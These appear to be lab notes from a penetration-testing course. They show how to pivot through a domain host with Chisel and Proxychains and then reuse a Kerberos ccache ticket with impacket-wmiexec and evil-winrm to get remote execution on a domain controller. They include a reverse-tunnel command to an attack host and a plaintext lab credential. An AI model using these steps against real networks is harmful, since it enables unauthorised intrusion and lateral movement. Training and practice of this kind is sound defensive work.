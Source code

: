 > Most Linux attack tools that interact with Windows and Active Directory support Kerberos authentication. If we use them from a domain-joined machine, we need to ensure our `KRB5CCNAME` environment variable is set to the ccache file we want to use.
> 
> In case we are attacking from a machine that is not a member of the domain, for example, our attack host, we need to make sure our machine can contact the KDC or Domain Controller, and that domain name resolution is working.

**Scenario**
- We can't connect directly to a DC/KDC and we can't use a DC for name resolution.
- We have connection to AD machine `MS01`

How will we connect ?
Use [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

1. Edit /etc/hosts
	``` bash
	$ cat /etc/hosts
	
	# Host addresses
	
	172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
	172.16.1.5  ms01.inlanefreight.htb  ms01
	```
2. Edi Proxychains
	``` bash
	$ tail -n 2 /etc/proxychains4.conf
	socks4  127.0.0.1 9050
	```
3. Use chisel
	``` bash
	$ sudo ./chisel server --reverse 
	
	2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
	```
4. Connect to MS01 with xfreerdp and run chisel on the windows machine
	``` bash
	$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
	```

	``` powershell
	C:\htb> c:\tools\chisel.exe client <attack_host_ip>:8080 R:socks
	```
5. Export the ccache file that we want to impersonate in our attack host
	``` bash
	$ export KRB5CCNAME=krb5cc_644116_I813
	```
6. Use impacket
	``` bash
	# To use the Kerberos ticket, specify target machine name (not the IP address)
	# and use the option -k, use -no-pass if we get a prompt for a password
	$ proxychains impacket-wmiexec dc01 -k
	```
7. Use evil-winrm
	``` bash
	# Install Kerberos Authentication Package